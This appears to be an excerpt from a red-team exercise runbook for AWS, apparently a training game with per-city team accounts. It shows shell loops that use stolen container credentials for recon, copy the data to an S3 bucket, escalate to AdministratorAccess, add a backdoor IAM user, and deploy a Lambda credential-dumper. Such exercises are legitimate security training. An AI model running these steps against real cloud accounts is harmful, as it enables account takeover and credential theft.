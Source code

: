 ```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/wed-recon.sh $city
	aws s3 sync data/$city s3://$city.fooli.wtf-recon  --acl bucket-owner-full-control
done
```
Data is copied to S3 for sharing with the RedTeam

## 10:30 Wednesday

### Privilege Escalation
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/containerRole-PrivEsc.sh data/$city
done
```
The AdministratorAccess is attached to the ContainerRole. ContainerRole had the `"iam:Attach*"` permissions.

### Persistence - Add IAM User
```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	./scripts/wed-iam-persistence.sh $city
done
```
This script created a user called `security-audit` in every account, the access key was downloaded by Chris.

**Mitigation:** detection and disabling the Access Key was the proper response here.


### Persistence - Add Lambda URL Cred Dumper

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	aws cloudformation create-stack --stack-name meme-audit --template-body file://cloudformation/lambda-backdoor-Template.yaml --capabilities CAPABILITY_NAMED_IAM CAPABILITY_AUTO_EXPAND
done
```

Wait 2 minutes and go back and get the URLs:

```bash
for city in `cat cities.txt` ; do
	source $city-container-creds.env
	echo -n "$city - "
	aws cloudformation describe-stacks --stack-name meme-audit --query 'Stacks[0].Outputs[?OutputKey==`VendingURL`].OutputValue' --output text
	echo GreenIsD3@dm3@t
done >> LambdaURLs.txt
```
